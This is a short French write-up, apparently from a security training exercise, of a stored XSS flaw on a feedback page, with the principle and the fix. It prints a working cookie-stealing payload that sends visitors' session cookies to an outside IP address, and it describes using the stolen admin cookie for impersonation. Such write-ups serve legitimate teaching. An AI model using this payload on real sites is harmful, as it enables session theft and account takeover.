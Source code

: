 Security breach name 	: XSS (Cross-site scripting) persistant

Principle 				: Insérer du code html/js/php dans un input pour essayer d'accéder à des données sensibles ou modifier la perception du site aux autres utilisateurs.

Solve 					: Stringifier les valeurs envoyé par le user.

In case 				: Sur la page feedback, un seul des deux inputs stringify la valeur entré par le user, le second ne fait que limiter la taille de son input,
							il nous a donc suffit de changer ca taille maximum pour ensuite y insérer du code nous permettant de d'envoyer le cookie de session de chaques users se rendant sur la page de feedback.
						Il faut utiliser un browser que Google Chrome car celui-ci bloque ce genre de contenu.

							code 	: <img src="azerty.jpg" onerror="window.location='http://46.101.40.236:3000/get_cookie_xss.php?cookie='+document.cookie;" hidden>
							result 	: http://46.101.40.236:3000/get_cookie_xss.php?cookie=I_am_admin=68934a3e9455fa72420237eb05902327


							Il nous restait plus qu'à changer le cookie I_am_admin pour se faire passer pour celui-ci.